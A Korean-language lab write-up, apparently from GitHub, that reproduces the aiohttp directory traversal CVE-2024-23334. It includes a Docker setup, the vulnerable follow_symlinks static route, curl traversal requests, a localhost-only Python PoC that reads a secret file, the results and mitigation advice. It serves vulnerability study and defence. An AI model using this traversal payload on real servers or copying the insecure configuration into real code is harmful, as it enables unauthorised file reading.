


# CVE-2024-23334 aiohttp Directory Traversal

> Contributor: sson4942-netizen  
> Risk Score: 5.9 / 10.0  
> Reproducibility: 95%

## 취약점 요약

CVE-2024-23334는 Python 웹 프레임워크 aiohttp에서 발생한 디렉터리 트래버설 취약점이다.

aiohttp에서 정적 파일을 제공할 때 `follow_symlinks=True` 옵션을 사용하면, 정적 파일 루트 디렉터리 밖의 파일까지 접근할 수 있다. 이 실습 환경에서는 `/app/public` 폴더만 정적 파일로 공개했지만, PoC 요청을 보내면 `/app/secret/secret.txt` 파일을 읽을 수 있다.

## 환경 구성

- Docker
- Docker Compose
- Python 3.11
- aiohttp 3.9.1

실행 명령어:

```bash
docker compose build
docker compose up -d
```

서비스 확인:

```bash
curl http://127.0.0.1:8080/
```

정상 정적 파일 확인:

```bash
curl http://127.0.0.1:8080/static/hello.txt
```

## 취약 조건

이 취약점이 재현되려면 아래 조건이 필요하다.

- aiohttp 3.9.2 이전 버전 사용
- aiohttp에서 static route 사용
- `follow_symlinks=True` 옵션 사용
- 외부 사용자가 static URL에 접근 가능

취약한 설정은 다음 코드이다.

```python
app.router.add_static(
    "/static/",
    path=BASE_DIR / "public",
    follow_symlinks=True,
    show_index=True,
)
```

## 재현 절차

1. 취약 환경을 실행한다.

```bash
docker compose build
docker compose up -d
```

2. 메인 페이지가 열리는지 확인한다.

```bash
curl http://127.0.0.1:8080/
```

3. 정상 정적 파일 접근을 확인한다.

```bash
curl http://127.0.0.1:8080/static/hello.txt
```

4. 디렉터리 트래버설 요청을 보낸다.

```bash
curl --path-as-is http://127.0.0.1:8080/static/../secret/secret.txt
```

5. PoC 스크립트를 실행한다.

```bash
python3 poc.py http://127.0.0.1:8080
```

## PoC 코드

```python
#!/usr/bin/env python3
import http.client
import sys
from urllib.parse import urlsplit


target = sys.argv[1] if len(sys.argv) > 1 else "http://127.0.0.1:8080"
u = urlsplit(target)

host = u.hostname or "127.0.0.1"
port = u.port or 8080

if host not in ("127.0.0.1", "localhost"):
    print("This PoC is intended for local lab testing only.")
    sys.exit(1)

conn = http.client.HTTPConnection(host, port, timeout=5)
path = "/static/../secret/secret.txt"

conn.request("GET", path)
res = conn.getresponse()
body = res.read().decode("utf-8", "replace")
conn.close()

print(f"[+] GET {path}")
print(f"[+] HTTP {res.status}")
print(body)

if "CVE-2024-23334-POC-SUCCESS" in body:
    print("[+] success: static directory outside file was read.")
else:
    print("[-] failed")
    sys.exit(1)
```

## 실행 결과

정상 정적 파일 요청 결과:

```txt
hello from public directory
```

취약점 재현 요청 결과:

```txt
CVE-2024-23334-POC-SUCCESS
```

PoC 실행 결과:

```txt
[+] GET /static/../secret/secret.txt
[+] HTTP 200
CVE-2024-23334-POC-SUCCESS
[+] success: static directory outside file was read.
```

스크린샷:






## 대응 방안

- aiohttp를 3.9.2 이상으로 업데이트한다.
- `follow_symlinks=True` 옵션을 제거한다.
- 운영 환경에서는 aiohttp가 직접 정적 파일을 제공하지 않도록 하고, nginx 같은 reverse proxy를 사용한다.
- 설정 파일, secret 파일, 인증 정보 파일을 웹 서비스 디렉터리 근처에 두지 않는다.
- static 경로로 들어오는 `../`, `%2e%2e` 같은 path traversal 요청을 로그에서 점검한다.

## 정리

이번 실습에서는 aiohttp 3.9.1 환경에서 `follow_symlinks=True` 옵션 때문에 static root 밖의 파일이 읽히는 것을 확인했다. 인증 없이 원격 HTTP 요청으로 파일을 읽을 수 있으므로, 설정 점검과 버전 업데이트가 필요하다.

## 참고 자료

- https://nvd.nist.gov/vuln/detail/CVE-2024-23334
- https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f
